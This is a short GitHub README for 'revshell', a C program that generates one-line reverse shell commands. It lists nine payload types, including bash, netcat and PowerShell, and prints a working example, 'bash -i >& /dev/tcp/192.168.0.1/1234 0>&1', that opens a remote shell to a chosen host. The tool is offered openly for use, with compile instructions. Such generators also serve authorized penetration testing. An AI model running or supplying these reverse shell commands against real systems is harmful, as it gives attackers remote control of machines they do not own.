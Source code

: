 # revshell
Reverse shell generator with simple one-line commands.

## Usage

```
▶ ./revshell

Usage: [IP ADDRESS] [PORT] [NUMBER OF PAYLOAD]

Payload list:
1. bash
2. nc
3. rm /tmp/f
4. python
5. php
6. perl
7. ruby
8. powershell
9. zsh

```

```
▶ ./revshell 192.168.0.1 1234 1

- bash -i >& /dev/tcp/192.168.0.1/1234 0>&1
```

## Compile

Compile it yourself or use pre-compiled binary from releases section.

```
gcc revshell.c -o revshell
```
### Fale comigo em :
<p align="left">
  <a href="https://github.com/Nosferatuvjr" target="_blank"><img src="https://img.shields.io/badge/Github-Nosferatuvjr-green?style=for-the-badge&logo=github"></a>
  <a href="https://www.instagram.com/vivald0x6f" target="_blank"><img src="https://img.shields.io/badge/IG-%40vivald0x6f-red?style=for-the-badge&logo=instagram"></a>
</p>